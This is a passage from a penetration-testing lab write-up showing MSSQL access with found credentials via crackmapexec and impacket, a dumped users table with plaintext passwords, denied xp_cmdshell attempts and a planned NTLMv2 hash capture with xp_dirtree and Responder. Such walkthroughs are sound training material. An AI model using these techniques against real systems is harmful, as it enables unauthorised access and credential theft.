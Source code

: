 ```bash
```
I get two different errors. Looking at the result for MS01, the login failed for user `MS01\Guest`. This seems to imply that this computer is using local instead of domain authentication, so i try using `CME` again with `--local-auth` flag:
```bash
crackmapexec mssql 10.10.194.213-214 -u 'web_staging' -p 'Washroom510' --local-auth 
MSSQL       10.10.194.214   1433   MS01             [*] Windows 10.0 Build 20348 (name:MS01) (domain:MS01)
MSSQL       10.10.194.213   1433   DC01             [*] Windows 10.0 Build 20348 (name:DC01) (domain:DC01)
MSSQL       10.10.194.214   1433   MS01             [+] web_staging:Washroom510 
MSSQL       10.10.194.213   1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'web_staging'.
```
These credentials indeed work, and i can login to the MSSQL server on MS01:
```
mssqlclient.py web_staging:Washroom510@10.10.194.214
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MS01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (web_staging  guest@master)>
```
Browsing through the database, there doesn't seem to be much of interest. There is a users table in the staging db:
```
SQL (web_staging  dbo@staging)> select * from users;
id   username   password        
--   --------   -------------   
 1   b'dev01'   b'Initial123'   
 2   b'dev02'   b'Initial123'
```
However these credentials don't work over SMB/RDP/MSSQL. I should however note the password `Initial123` and attempt password spraying with it, if i get a list of users in the future
Next thing i can try is executing system commands with `xp_cmdshell`, however it is disabled and my user doesn't have enough privileges to enable it:
```
SQL (web_staging  dbo@staging)> xp_cmdshell whoami;
[-] ERROR(MS01\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (web_staging  dbo@staging)> EXEC sp_configure 'show advanced options',1;
[-] ERROR(MS01\SQLEXPRESS): Line 105: User does not have permission to perform this action
```
Another potential attack is stealing the NTLMv2 hash using the `xp_dirtree` command. I need to start the `Responder` tool on my attack machine and list the files on the SMB server:
